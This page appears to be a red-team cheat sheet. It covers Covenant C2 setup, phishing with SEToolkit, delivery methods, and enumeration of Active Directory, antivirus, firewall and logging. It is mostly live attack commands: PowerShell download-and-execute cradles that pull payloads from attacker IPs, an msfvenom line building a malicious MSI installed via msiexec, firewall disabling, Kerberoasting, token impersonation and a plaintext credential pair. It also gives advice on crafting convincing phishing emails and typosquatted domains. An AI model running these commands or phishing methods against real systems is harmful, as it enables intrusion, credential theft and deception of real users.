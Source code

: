 # Red Teaming / C2



## Covenant

{% code overflow="wrap" fullWidth="true" %}
```sh
# INSTALLATION
The easiest way to use Covenant is by installing dotnet core. You can download dotnet core for your platform from here.
https://dotnet.microsoft.com/download/dotnet-core/3.1
Be sure to install the dotnet core version 3.1 SDK!
$ ~ > git clone --recurse-submodules https://github.com/cobbr/Covenant
$ ~ > cd Covenant/Covenant
$ ~/Covenant/Covenant > dotnet run

# REGISTER A NEW USER

# LISTENERS
Listeners (on the left menu) > Create
Choose the same BindPort and ConnectPort # (80 or 9999 for example)
ConnectAddresses has to be our attacking IP

# LAUNCHERS
Launchers menu (on the left) > Select PowerShell
Verify the default settings and click on Generate
Click on the Host tab and enter /shell.ps1 on Url field, which will be the path to the served launcher.
Then click on Host button so Launcher will show ..../shell.ps1 as part of the DownloadString command on Launcher field
Finally we execute that launcher command on the target (CMD/PS shell) # use port 9999 or just port 80 
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.8:9999/shell.ps1')
After that, we should get a notification "grunt X has been activated"


# GRUNTS
Click on the Grunt ID > Then Interact tab > Type SharpUp audit to run privesc checks
SharpUp audit # run privesc checks
shellcmd $COMMAND # run a shell command (do not use quotes)
# SYSTEM REVSHELL USING THE LAUNCHER 
msfvenom -p windows/x64/exec CMD="cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.14.14.4/shell.ps1')" -f msi > pwn.msi
shellcmd msiexec /q /i \\10.14.14.4\share\pwn.msi # change to a writable directory first
cat $FILE # read file
# Import PowerShell file
PowerShellImport // PowerView.ps1
# POWERVIEW COMMANDS
PowerShell Get-NetDomain
PowerShell Get-DomainComputer | Select name
PowerShell Find-DomainShare
net view /all \\citrix
net use \\citrix\citrix$ /u:mturner 4install!
dir \\citrix\citrix$
ls \\$HOSTNAME\$SHARE
# KERBEROASTING
PowerShell Invoke-Kerberoast
# IMPERSONATE AS A USER HAVING CREDS
MakeToken $USER DOM.COM $PASS LOGON32_LOGON_INTERACTIVE
WhoAmI
```
{% endcode %}

## Havoc

[https://medium.com/@sam.rothlisberger/havoc-c2-with-av-edr-bypass-methods-in-2024-part-1-733d423fc67b](https://medium.com/@sam.rothlisberger/havoc-c2-with-av-edr-bypass-methods-in-2024-part-1-733d423fc67b)

## Phishing

### Social Engineering Toolkit

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/trustedsec/social-engineer-toolkit

We can use the Social Engineer Toolkit to set up a fake website and phish the users. 
SEToolkit supports cloning pages and capturing incoming credentials. 
Run setoolkit and select the options Social-Engineering Attacks > Website Attack Vectors > Credential Harvester Attack > Site Cloner . Next, enter your VPN IP address (e.g. 10.10.14.X) for incoming requests, followed by the login page URL:

https://humongousretail.com/remote/auth/login.aspx

# Then we can send emails using swaks
```
{% endcode %}

### Convincing Phishing Emails

* Sender address from a significant brand, contact or cowoker. Use OSINT to suit it better to the destinatary.
* Subject: urgent, worrying, piques the victim's curiosity (account compromised, package shipped, payroll info, leaked pics...
* Content/Body: mimic standard email templates of the company, signatures, use anchor text \<a href> to disguise links

### Phishing Infrastructure

* Domain Name (buy expired domains, typosquatting, TLD alternative such as .co.uk, IDN Homograph Attack/Script Spoofing)
* SSL/TLS certificates
* Email Server/Account
* DNS Records to improve deliverability (not getting into spam folder)
* Web Server
* Analytics of emails sent, opened...

[https://getgophish.com/](https://getgophish.com/)

[https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

Droppers > software to be downloaded and run (legitimate but once installed, the intended malware is either unpacked or downloaded)

Use MS Office in Phishing as attachments with macros

Browser exploits: difficult, but might work if we know systems and are old or unpatched for sth like [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)

## DELIVERY TECHNIQUES

### Mail

The red teamers should have their own infrastructure for phishing purposes. Depending on the red team engagement requirement, it requires setting up various options within the email server, including DomainKeys Identified Mail (DKIM), Sender Policy Framework (SPF), and DNS Pointer (PTR) record.

The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo, and others with good reputations.

Another interesting method would be to use a compromised email account within a company to send phishing emails within the company or to others.

### Web

[https://attack.mitre.org/techniques/T1189/](https://attack.mitre.org/techniques/T1189/)

Web server with reputation of its domain name and TLS (Transport Layer Security) certificate.

### USB

[https://attack.mitre.org/techniques/T1091/](https://attack.mitre.org/techniques/T1091/)

Useful at conferences or events where the adversary can distribute the USB.

Common USB attacks used to weaponize USB devices include [Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) and [USBHarpoon](https://www.minitool.com/news/usbharpoon.html), chargingĀ USB cable, such asĀ [O.MG Cable](https://shop.hak5.org/products/omg-cable).

## Initial Access

### Network Infrastructure

Internal network with VLAN for example

A DMZ Network is an edge network that protects and adds an extra security layer to a corporation's internal local-area network from untrusted traffic. A common design for DMZ is a subnetwork that sits between the public internet and internal networks.

### AD

<figure><img src="../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

```
systeminfo | findstr Domain
 Get-ADUser  -Filter *
 Get-ADUser -Filter * -SearchBase "CN=Users,DC=DOMAIN,DC=COM"
```

### AV

```
wmic /namespace:\\root\securitycenter2 path antivirusproduct
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
Get-Service WinDefend
Get-MpComputerStatus | select RealTimeProtectionEnabled
```

### FW

```
Get-NetFirewallProfile | Format-Table Name, Enabled
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
Get-NetFirewallProfile | Format-Table Name, Enabled
Get-NetFirewallRule | select DisplayName, Enabled, Description
# To test inbound connection on port 80
Test-NetConnection -ComputerName 127.0.0.1 -Port 80
Get-MpThreat # threats details that have been detected using MS Defender
```

### Security Event Logging and Monitoring

{% code overflow="wrap" fullWidth="true" %}
```bash
Get-EventLog -List
https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-eventlog?view=powershell-5.1
# Sysmon -> check if it is present
https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon
Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
Get-Service | where-object {$_.DisplayName -like "*sysm*"}
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\* # find sysmon config file
# EDR detection
software for endpoints
• Cylance
• Crowdstrike
• Symantec
• SentinelOne
• Many others
https://github.com/PwnDexter/Invoke-EDRChecker
https://github.com/PwnDexter/SharpEDRChecker
```
{% endcode %}
